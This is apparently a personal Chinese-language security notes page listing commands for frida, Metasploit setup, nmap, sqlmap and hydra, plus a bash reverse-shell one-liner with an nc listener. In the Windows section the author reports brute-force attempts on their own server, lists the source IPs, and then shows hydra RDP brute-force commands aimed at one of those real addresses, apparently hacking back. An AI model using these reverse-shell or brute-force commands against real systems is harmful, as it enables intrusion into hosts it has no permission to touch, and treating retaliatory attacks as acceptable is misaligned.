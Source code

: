 ```yaml
---
title: "安全"
date: 2021-05-01T13:22:38+08:00
lastmod: 2021-05-01T13:22:38+08:00
draft: false
keywords: []
description: ""
tags: ["security", "reverse"]
categories: []
author: "lttzz"

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: true
autoCollapseToc: true
postMetaInFooter: false
hiddenFromHomePage: false
# You can also define another contentCopyright. e.g. contentCopyright: "This is another copyright."
contentCopyright: false
reward: false
mathjax: false
mathjaxEnableSingleDollar: false
mathjaxEnableAutoNumber: false

# You unlisted posts you might want not want the header or footer to show
hideHeaderAndFooter: false

# You can enable or disable out-of-date content warning for individual post.
# Comment this out to use the global config.
#enableOutdatedInfoWarning: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


<!--more-->

# 0x00 Tools

## frida

``` bash
# frida https://github.com/frida/frida
$ pip install frida
$ pip install frida-tools

# server https://github.com/frida/frida/releases
# cat /proc/cpuinfo
# genymotion 选 x86

# 执行ps有返回结果，则说明搭建成功
$ frida-ps -U

# 版本一定要注意一致，否则可能出现奇奇怪怪的问题
# frida  frida-tools  frida-server

## frida-ps
# Connect Frida to an iPad over USB and list running processes
$ frida-ps -U
# List running applications
$ frida-ps -Ua
# List installed applications
$ frida-ps -Uai


## frida-trace
$ frida-trace -U -i open Chrome 
# Trace recv* and send* APIs in Safari, insert library names
# in logging
$ frida-trace --decorate -i "recv*" -i "send*" Safari
# Trace ObjC method calls in Safari
$ frida-trace -m "-[NSView drawRect:]" Safari
# Launch SnapChat on your iPhone and trace crypto API calls
$ frida-trace \
    -U \
    -f com.toyopagroup.picaboo \
    -I "libcommonCrypto*"
# Launch YouTube on your Android device and trace Java methods
# with “certificate” in their signature (s), ignoring case (i)
# and only searching in user-defined classes (u)
$ frida-trace \
    -U \
    -f com.google.android.youtube \
    --runtime=v8 \
    -j '*!*certificate*/isu'
# Trace all JNI functions in Samsung FaceService app on Android
$ frida-trace -U -i "Java_*" com.samsung.faceservice
# Trace a Windows process's calls to "mem*" functions in msvcrt.dll
$ frida-trace -p 1372 -i "msvcrt.dll!*mem*"
# Trace all functions matching "*open*" in the process except
# in msvcrt.dll
$ frida-trace -p 1372 -i "*open*" -x "msvcrt.dll!*open*"
# Trace an unexported function in libjpeg.so
$ frida-trace -p 1372 -a "libjpeg.so!0x4793c"
	-i FUNCTION, --include=FUNCTION include [MODULE]![FUNCTION]
  -x FUNCTION, --exclude=FUNCTION exclude [MODULE]![FUNCTION]
  -j JAVA_METHOD, --include-java-method=JAVA_METHOD include JAVA_METHOD
  -J JAVA_METHOD, --exclude-java-method=JAVA_METHOD exclude JAVA_METHOD
  -d, --decorate        add module name to generated onEnter log statement
  -F, --attach-frontmost attach to frontmost application
  -n NAME, --attach-name=NAME attach to NAME
  -p PID, --attach-pid=PID attach to PID
```

### reference

[『Android安全』版优秀和精华帖分类索引](https://bbs.pediy.com/thread-179524.htm)

## Metasploit

``` bash
# 先安装 postgresql 喽
$ dnf install  postgresql-server postgresql-contrib
$ systemctl enable postgresql
$ systemctl start postgresql		# 启动不了就重启吧，233
$ postgresql-setup --initdb --unit postgresql
$ su - postgres
$ psql
	alter user postgres with password 'password_for_postgres';
	create user msf with password 'password_for_msf' createdb;
	create database msf with owner=msf;

```





# 0x01 Linux

## 反弹shell

``` bash
# 攻击端监听端口
$ nc -lvp 2333

# 被攻击端反弹shell
$ bash -i >& /dev/tcp/{ip}/{port} 0>&1
```





# 0x02 Windows

## 随便写点什么

![](/Picbed/2021_10/1020_00.png)

![](/Picbed/2021_10/1020_01.png)

女朋友笔记本是mba，然后有一天要用Windows，就把一台没啥用的服务器装好了Windows Server 2019 Datacenter给她用了。公网ip不能浪费啊，平常会挂点热门种子，刷刷上传。然后有一天登不上去，没想太多，到控制台改了密码就没管。

今天想起来了，看了下日志，1s一次的登陆请求？NtLmSsp登陆爆破可真行，攻击IP如下：

```
39.174.37.173
47.103.26.179
47.103.62.23
```

很快啊，他也没了。

![](/Picbed/2021_10/1020_02.png)

不太对劲的样子，不会是honeypot吧。

# 0x03 Android

``` bash
ps -e | grep {keyword}
```







# 0x04 Web

## Information Gather

### nmap

``` bash
# 完整扫描，列出详细信息
$ nmap –T4 –A –v target_ip
# 主机发现
$ nmap -T4 -sn target_ip
# 端口扫描
$ nmap -T4 target_ip
# 服务扫描
$ nmap -T4 -sV target_ip
# OS探测
$ nmap -T4 -O target_ip
```

## hydra

``` bash
# 3389
$ hydra 47.103.26.179 rdp -l administrator -P passwd.txt -V		# 爆破 administrator
$ hydra 47.103.26.179 rdp -L user.txt -P passwd.txt -V
```

## sql注入

``` bash
# 获取网站信息
sqlmap.py -u http://www.xxx.com/ss?id=xxx

sqlmap.py -u http://www.xxx.com/ss?id=xxx --dbs
```

